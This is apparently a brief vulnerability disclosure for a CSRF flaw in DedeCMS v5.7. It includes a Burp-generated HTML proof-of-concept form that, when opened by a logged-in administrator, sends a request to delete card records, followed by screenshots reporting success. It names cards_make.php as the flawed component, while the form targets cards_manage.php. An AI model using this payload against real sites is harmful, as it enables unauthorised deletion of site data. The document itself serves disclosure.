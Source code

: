 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /src/dede/cards_make.php
![1](https://github.com/wangxinbixu888/cms/assets/164822067/825201f9-5fc6-497e-aa18-8af6e8782ec7)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/src/dede/cards_manage.php">
      <input type="hidden" name="dopost" value="delete" />
      <input type="hidden" name="aids" value="300" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```
![2](https://github.com/wangxinbixu888/cms/assets/164822067/d9de4166-0b0d-4594-acb9-e696207193c3)



successed

![3](https://github.com/wangxinbixu888/cms/assets/164822067/eee2a650-666f-4408-9713-ed732492d83b)
